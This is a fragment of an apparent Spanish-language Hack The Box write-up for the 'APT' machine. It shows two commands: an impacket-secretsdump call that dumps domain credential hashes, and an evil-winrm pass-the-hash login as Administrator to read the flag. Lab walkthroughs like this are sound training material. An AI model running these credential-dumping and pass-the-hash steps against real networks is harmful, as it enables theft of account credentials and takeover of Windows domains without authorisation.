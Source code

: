 ```bash
impacket-secretsdump -hashes :d167c32388864b12f5f82feae86a7f798 'htb.local/APT$@apt'
```

Aqui ya vemos los hash de los usuarios y con evil-winRM no connectamos con el usuario administrator

```bash
evil-winrm -i apt -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'
```

y visualizar la flag.

